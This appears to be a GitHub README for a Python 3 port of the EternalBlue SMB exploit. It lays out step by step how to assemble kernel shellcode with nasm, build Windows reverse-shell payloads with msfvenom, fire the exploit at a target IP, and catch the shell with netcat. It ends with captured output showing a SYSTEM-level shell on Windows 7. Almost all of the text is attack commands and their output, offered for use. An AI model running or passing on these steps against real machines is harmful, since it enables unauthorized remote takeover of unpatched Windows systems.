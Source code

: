 # EternalBlue-in-Python3

## How to use

### Clone the repository

```
git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git
```

## Compiling the shellcode(s)

### x64

```
nasm -f bin shellcode/eternalblue_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin shellcode/eternalblue_x86.asm -o ./sc_x86_kernel.bin
```

## Create a Bin

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

## Exploit

```
python3 eternal-blue.py TARGET-IP final.bin
```

### Open NC and wait the connection

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [0.0.0.0] from (UNKNOWN) [0.0.0.0] 49191
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

